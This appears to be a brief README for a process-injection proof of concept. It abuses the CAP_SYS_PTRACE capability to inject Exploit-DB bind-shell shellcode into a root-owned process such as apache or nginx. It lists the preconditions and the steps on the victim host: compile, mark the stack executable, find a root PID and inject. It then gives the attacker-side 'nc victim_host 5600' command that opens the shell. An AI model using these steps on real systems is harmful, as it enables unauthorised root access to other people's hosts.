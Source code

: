 # memory_inject CAP_SYS_PTRACE capability

Linux/x64 - Bind (5600/TCP) Shell Shellcode (87 bytes) 
https://www.exploit-db.com/exploits/41128

1) The EUID of the process in 0 (aka privileged process)
2) The program file has CAP_SYS_PTRACE capability to debug the process 

TCP bind shell

victim host
1) $ gcc -o bind_shell bind_shell.c
2) $ execstack -s bind_shell
3) $ ps -eaf -> find pid number under root (apache, nginx, python, etc)
4) $ ./bind_shell pid_number

attacker host
1) $ nc victim_host 5600
